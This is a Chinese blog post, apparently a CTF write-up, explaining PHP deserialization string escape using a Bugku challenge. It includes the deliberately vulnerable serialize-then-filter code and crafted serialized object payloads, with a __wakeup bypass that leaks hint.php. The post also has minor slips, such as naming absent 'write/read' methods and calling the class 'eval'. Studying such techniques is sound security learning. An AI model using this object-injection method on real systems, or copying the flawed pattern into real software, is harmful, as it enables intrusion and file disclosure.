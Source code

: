 ```yaml
---
title: PHP 反序列化与字符串逃逸
date: 2021-07-18 17:21:33
description: 
categories:
  - Pentest
tags:
  - deserialize
---
```


### 0x00 漏洞成因
该漏洞主要是因为序列化的字符串在经过过滤函数不正确的处理而导致对象注入，目前看到都是因为过滤函数放在了 serialize 函数之后

### 0x01 条件
* 相邻两个属性的值是我们可以控制的
* 前一个属性的 s 长度可以发生变化（变长变短都可以）
    * 若变长则可以直接在该属性中注入对象来达到反序列化
    * 若变短则可以吞掉后面相邻属性的值，在后面的属性中注入新的对象

### 0x02 题目
Bugku CTF 的题
```php
<?php
// php版本:5.4.44
header("Content-type: text/html; charset=utf-8");
// highlight_file(__FILE__);

class evil{
    public $hint;
    public function __construct($hint){
        $this->hint = $hint;
    }
    public function __destruct(){
        if($this->hint==="hint.php") {
            @$this->hint = base64_encode(file_get_contents($this->hint)); 
        }
        var_dump($this->hint);
    }
    function __wakeup() { 
        if ($this->hint != "╭(●｀∀´●)╯") { 
            //There's a hint in ./hint.php
            $this->hint = "╰(●’◡’●)╮"; 
        } 
    }
}

class User
{
    public $username;
    public $password;
    public function __construct($username, $password){
        $this->username = $username;
        $this->password = $password;
    }

}

function filter($data){
    $data = str_replace('123', 'abcdef', $data);
    return $data;
}

$username = $_POST['username'];
$password = $_POST['password'];

$a = serialize(new User($username, $password));
if(preg_match('/flag/is', $a))
    die("NoNoNo!");

$w = filter($a);
unserialize($w);
?>
```

### 0x03 分析
* 可以看到我们可以传入 username 和 password 触发 User 类，而我们需要触发 evil 类从而获取 hint.php
* 题目中序列化了 User 类然后结果被方法 write 和 read 处理后再反序列化
* filter 一个是将序列化后的字符串变长的函数
* 我们可以序列化 eval 类并作为参数传入 User，将 eval 当作 User 的一个元素从而触发 eval

### 0x04 获取触发 evil 的序列化字符串
```php
<?php
class evil{
    public $hint;
    public function __construct($hint){
        $this->hint = $hint;
    }
}

var_dump(serialize(new evil("hint.php")));
?>
```
输出 `payload：O:4:"evil":1:{s:4:"hint";s:8:"hint.php";}`

### 0x05 利用(过滤后变长)
经过 filter 函数后，序列化的字符串中的 123 会被替换为 abcdef，整体来说遇到一个 123 字符串就会变长 3

```php
$a = serialize(new User($username, $password));
if(preg_match('/flag/is', $a))
    die("NoNoNo!");

var_dump($a);
echo "<br>";

$w = filter($a);
var_dump($w);
echo "<br>";

unserialize($w);
```
post username=111&password=222，经过 filter 后输出
```php
O:4:"User":2:{s:8:"username";s:3:"111";s:8:"password";s:3:"222";}
```

可以看出其实可控的是 111 及后面的 222，我们需要将 User 类序列化的字符串想办法构造为

`O:4:"User":2:{s:8:"username";s:4:"111";     s:8:"password";`<f>序列化后的 evil 字符串</f>;}

当我们传入构造后的序列化 payload 后
![](/img/post/16258097627342.jpg)

上图中，位置 2 在序列化的字符串中其实是 username 的值，是一个字符串，若我们在 1 的位置插入 60 个字符

则 username 的值为我们插入的 60 个字符，而 password 的值则为 payload <f>`O:4:"evil":1:{s:4:"hint";s:8:"hint.php";}`</f>，后面 3 位置的字符串失效，当反序列化时即可触发 evil，构造后如下图：
![](/img/post/16258101773735.jpg)
将 payload 中 evil 的属性个数改为大于存在的属性个数即可绕过 wakeup，最终得到 hint.php 的内容
![](/img/post/16258103107382.jpg)

### 0x06 延伸(过滤后变短)
更改 filter 函数，经过处理后序列号字符串变短
```php
function filter($data){
    $data = str_replace('abcdef', '123', $data);
    return $data;
}
```
若处理后变短则可以吞掉后面相邻属性的值，所以可以在后面的属性中注入新的对象

前面的属性经过处理后变短，需要我们填充垃圾字符串，使长度和原来相同，就会注入 evil 对象即可
![](/img/post/16258114498309.jpg)

从上图可以看出，输入的字符串被替换为了 123123，但是显示的长度还是 12，位数不对时反序列化就会出错

我们需要把位置 1 的数字和位置 2 的字符串的位数设置为相同，这样反序列化不会出错且位置 3 还会触发 evil

具体如下，可触发 evil 得到 hint.php 中的内容：
![](/img/post/16258119470950.jpg)

<br>
#### Reference(侵删)：
* [https://blog.csdn.net/qq_25755011/article/details/115950424](https://blog.csdn.net/qq_25755011/article/details/115950424?_blank)
* [https://www.cnblogs.com/tr1ple/p/11876441.html](https://www.cnblogs.com/tr1ple/p/11876441.html?_blank)
* [https://cloud.tencent.com/developer/article/1627299](https://cloud.tencent.com/developer/article/1627299?_blank)
